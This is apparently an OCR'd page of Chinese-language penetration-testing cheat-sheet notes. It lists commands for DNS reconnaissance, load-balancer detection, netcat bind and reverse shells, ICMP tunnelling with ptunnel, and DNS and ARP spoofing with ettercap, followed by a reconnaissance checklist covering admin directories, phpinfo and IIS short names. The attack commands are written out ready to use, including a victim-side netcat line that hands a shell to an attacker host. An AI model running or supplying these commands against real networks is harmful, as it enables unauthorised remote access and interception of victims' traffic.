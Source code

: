 ```shell
dig domain any
```

```shell
host hostname
```

## 服务器分析

检测服务器是否有负载均衡

```shell
lbd 域名
```

## netcat隧道指令传输

```shell
正向链接： 
受害者执行： nc -d -L -p 端口 -e shell.bin
入侵机执行： nc 受害者 端口

反向链接： 
攻击方执行: nc -l -p 端口
受害方执行： nc -d 攻击者 端口 -e shell.bin
```

## 反向代理

```shell
ptunnel -p 本机地址 -lp 内部端口 -da 外部地址 -dp 外部端口 
```

## DNS欺骗

```shell
ettercap -i 网卡 -Tq -P dns_spoof /网关/受害者/

配置文件： /etc/ettercap/etter.dns
```

## arp欺骗

```shell
ettercap -i 网卡 -Tq -M arp:remote /网关/受害者ip/
```

## 收集方向

* 收集方向
  * robots.txt
    * 后台目录
    * 安装包
    * 上传目录
    * mysql管理接口
    * 安装页面
    * phpinfo
    * 编辑器
    * iis短文件
